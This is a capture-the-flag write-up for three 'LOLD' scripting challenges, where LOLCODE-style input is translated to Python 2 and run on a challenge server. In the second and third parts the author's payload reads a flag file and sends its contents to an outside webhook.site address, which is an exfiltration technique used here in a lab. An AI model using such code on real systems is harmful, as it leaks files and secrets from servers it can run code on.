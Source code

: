 # LOLD 1,2,3 - Scripting

We were in all 3 challenges the same python2 file

and i use this command to compile LOLD code to python

```
$ python2 lolpython.py --convert code.lold && python2 code.py 
```

## LOLD (easy)


> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND FLAG IS EVEN AT /flag.txt.

Started by understanding basic instructions.

```
VISIBLE was translated to print
CAN HAZ to (
OK to )
THING to ()
```

![LOLD](LOLD_codium.png)

I wrote a LOLD program to print `/flag.txt`
```
f CAN HAZ open WIT '/flag.txt' OK
VISIBLE f OWN read THING
```
so that was translated to python:
```py
f = open ( '/flag.txt' ) 
print f . read ()
```
and that worked and gaved us the flag

![LOLD](LOLD_terminal.png)

## Curiosity 

At this point i was curious on what i can really do here. I was given possibly a docker machine and i could run anything. Maybe they have more code there. What can i really find here?

Did an `ls` and reallized i was at `/`. Surely i was in a docker.

I searched and found the code was at `/opt/challenge/`. 

4 files:
- flag.txt \
contains the flag!
- test.py \
maybe an admin added that there to test the challenge
- lolpython.py \
our source code
- entry.py \
ahh here we go. That program is the connection. We give it code, it compile and save it to `/tmp` and runs it.

## LOLD 2 (medium)

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! AND FLAG IS EVEN AT /flag.txt! 

I run the same program but this time i couldnt find a way to print since they just replied if the run was succeful or not.

I just had to do a call an request and send the containts of the `/flag.txt` file.

And why read the `/flag.txt` when we already know its the same in `/opt/challenge/flag.txt`

```
GIMME urllib
f CAN HAZ open WIT '/opt/challenge/flag.txt' OK 
flag CAN HAZ f OWN read THING
VISIBLE urllib OWN urlopen WIT " https://webhook.site/<REDACTED>?LOLD2= " ALONG WITH flag OK OWN read THING
```
```py
import urllib 
f = open ( '/opt/challenge/flag.txt' ) 
flag = f . read ()
print urllib . urlopen ( ' https://webhook.site/<REDACTED>?LOLD2= ' + flag ) . read ()
```

![LOLD](LOLD2_terminal.png)
![LOLD](LOLD2_webhook.png)

## LOLD 3 (hard)

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! BUT URGHHHH NOW WE HAVE LOST THE FLAG!?! YOU HAZ TO FIND IT!! 

Well we already know what to do ;)

```
GIMME urllib
f CAN HAZ open WIT '/opt/challenge/flag.txt' OK 
flag CAN HAZ f OWN read THING
VISIBLE urllib OWN urlopen WIT " https://webhook.site/<REDACTED>?LOLD3= " ALONG WITH flag OK OWN read THING
```
```py
import urllib 
f = open ( '/opt/challenge/flag.txt' ) 
flag = f . read ()
print urllib . urlopen ( ' https://webhook.site/<REDACTED>?LOLD3= ' + flag ) . read ()
```

![LOLD](LOLD3_webhook.png)